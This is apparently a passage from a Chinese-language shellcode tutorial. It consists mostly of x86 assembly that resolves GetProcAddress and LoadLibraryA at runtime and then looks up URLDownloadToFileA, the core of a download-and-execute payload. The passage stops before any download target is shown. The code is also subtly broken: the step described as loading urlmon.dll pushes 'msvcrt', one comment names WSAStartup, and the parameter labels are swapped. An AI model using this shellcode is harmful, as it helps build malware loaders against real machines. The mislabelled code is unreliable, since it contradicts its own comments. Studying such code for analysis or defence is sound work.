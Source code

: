     functions:
    # Push string "GetProcAddress",0x00 onto the stack
     xor eax, eax            ; clear eax register
     mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
     push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"      
     push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
     push 0x41636f72         ; Acor : 41636f72
     push 0x50746547         ; PteG : 50746547
     mov [ebp-0x18], esp      ; save PTR to string at bottom of stack (ebp)
     call findFunctionAddr   ; After Return EAX will = &GetProcAddress
    # EAX = &GetProcAddress
     mov [ebp-0x1C], eax      ; save &GetProcAddress
    
    ; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
     xor edx, edx            ; EDX = 0x00000000
     push edx                ; null terminator for LoadLibraryA string
     push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
     push 0x7262694c         ; rbiL : 7262694c
     push 0x64616f4c         ; daoL : 64616f4c
     push esp                ; $hModule    -- push the address of the start of the string onto the stack
     push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
     mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
     call eax                ; Call the GetProcAddress Function.
     mov [ebp-0x20], eax     ; save Address of LoadLibraryA 
    
    
    ```
  + 通过刚刚得到的`LoadLibraryA`函数入口，加载`urlmon.dll`
    ```asm
    ; Call LoadLibraryA(PTR "urlmon")
    ;   push "msvcrt",0x00 to the stack and save pointer
     xor eax, eax            ; clear eax
     mov ax, 0x7472          ; tr : 7472
     push eax
     push 0x6376736D         ; cvsm : 6376736D
     push esp                ; push the pointer to the string
     mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
     call ebx                ; call the LoadLibraryA Function to load urlmon.dll
     mov [ebp-0x24], eax     ; save Address of urlmon.dll
    ```

  * 通过`urlmon.dll`获得`URLDownloadToFileA`的入口地址
    ```asm
    ; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA")
    xor edx, edx
    mov dx, 0x4165          ; Ae
    push edx
    push 0x6C69466F         ; liFo
    push 0x5464616F         ; Tdao
    push 0x6C6E776F         ; lnwo
    push 0x444c5255         ; DLRU
    push esp    		; push pointer to string to stack for 'URLDownloadToFileA'
    push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
    mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
    call eax                ; GetProcAddress
    ;   EAX = WSAStartup Address
    mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
    ```
